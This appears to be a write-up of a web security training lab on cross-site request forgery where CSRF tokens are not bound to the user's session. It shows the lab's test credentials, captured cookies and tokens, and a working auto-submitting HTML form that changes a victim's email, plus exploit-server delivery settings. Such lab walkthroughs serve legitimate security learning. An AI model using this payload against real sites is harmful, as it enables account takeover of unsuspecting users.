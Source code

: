 ### CSRF where token is not tied to user session

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya

_____

Analysis and Exploit:

1. Logged-in as user _wiener_, session cookie = JT6zipN2IJHtqauXXHMyjsRmYkE5OKH4  and csrf token = Jfx4ZE9LHZ1k36UBWv683Wtnso4eZTLM

2. Logged-in as user _carlos_, session cookie = 1hTMTZRfVuNjTbCQ7iqbmJNRoEFlkOxJ and csrf token = gGltaSQ1XtFxa2XfP10bpcZwHsuRCZAO

3. Changed email for user _carlos_, captured the POST request, changed the csrf token with _wiener_'s and repeated it using [BURP REPEATER]: worked  
Since csrf tokens are not tied to session cookies, the web application does consider valid tokens that are stored in a common pool.

4. Craft HTML form page with payload*, stored on exploit server and delivered to the victim:
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@gothacked">
            <input required type="hidden" name="csrf" value="CSRF">
            <button type="submit">Update Email</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```


_____

Script notes:

- 1 - Login as user _wiener_ and grab the csrf token
- 4 - payload[URL] = url, payload[CSRF] = csrf  
    Params for the exploit server:
    - urlIsHttps: on
    - responseFile: /exploit
    - responseHead: HTTP/1.1 200 OK Content-Type: text/html; charset=utf-8
    - responseBody: *
    - formAction: STORE | DELIVER_TO_VICTIM